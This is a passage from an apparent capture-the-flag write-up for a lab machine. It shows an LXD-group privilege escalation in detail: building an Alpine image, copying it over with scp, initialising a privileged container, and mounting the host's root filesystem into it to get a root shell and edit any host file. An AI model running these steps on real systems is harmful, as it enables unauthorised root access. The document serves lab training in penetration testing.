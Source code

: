 ```
Downloading alpine-keys-2.1-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
………………..SNIP……………………………………..
Executing busybox-1.27.2-r7.trigger
OK: 6 MiB in 16 packages
root@kali:~/Downloads/lxd-alpine-builder# ls
alpine-v3.7-i386-20180115_1743.tar.gz  build-alpine  LICENSE  README.md
```
Now we'll use scp to get it over to the box.
```
root@kali:~/Downloads/lxd-alpine-builder# scp alpine-v3.7-i386-20180115_1743.tar.gz  xalvas@10.10.10.27:/tmp/
xalvas@10.10.10.27's password: 
alpine-v3.7-i386-20180115_1743.tar.gz                                                                                                                                            100% 2418KB 115.1KB/s   00:21    
root@kali:~/Downloads/lxd-alpine-builder#
```
We then create the image as below:

![](https://image.ibb.co/jQ5mBm/31.png)

There are two important parts which I'll explain:
```
lxc init alpine alpsarecold -c security.privileged=true
```
This initializes an alpine image with full security privileges.  Ergo any process or action running on the device is occurring with the full privileges of the host.

```
xalvas@calamity:/tmp$ lxc config device add alpsarecold somedisk disk source=/ path=/mnt/root recursive=true
Device somedisk added to alpsarecold
```
This then creates a mount point in `/mnt/root` and just mounts the entire disk recursively.  So this container can access anything that the host root user can access.

Let's spawn a shell in the container.

![](https://image.ibb.co/j3hBcR/32.png)

We can read root.txt and edit any file to our hearts content!
